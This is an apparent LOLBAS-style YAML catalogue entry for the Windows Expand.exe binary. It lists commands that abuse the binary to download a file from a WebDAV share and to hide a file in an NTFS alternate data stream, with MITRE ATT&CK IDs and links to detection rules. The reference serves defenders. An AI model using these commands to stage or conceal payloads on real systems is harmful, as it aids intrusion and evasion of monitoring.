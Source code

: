 ```yaml
---
Name: Expand.exe
Description: Binary that expands one or more compressed files
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: expand \\webdav\folder\file.bat c:\ADS\file.bat
    Description: Copies source file to destination.
    Usecase: Use to copies the source file to the destination file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: expand c:\ADS\file1.bat c:\ADS\file2.bat
    Description: Copies source file to destination.
    Usecase: Copies files from A to B
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
    Description: Copies source file to destination Alternate Data Stream (ADS)
    Usecase: Copies files from A to B
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\Expand.exe
  - Path: C:\Windows\SysWOW64\Expand.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_expand_cabinet_files.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
Resources:
  - Link: https://twitter.com/infosecn1nja/status/986628482858807297
  - Link: https://twitter.com/Oddvarmoe/status/986709068759949319
Acknowledgement:
  - Person: Rahmat Nurfauzi
    Handle: '@infosecn1nja'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

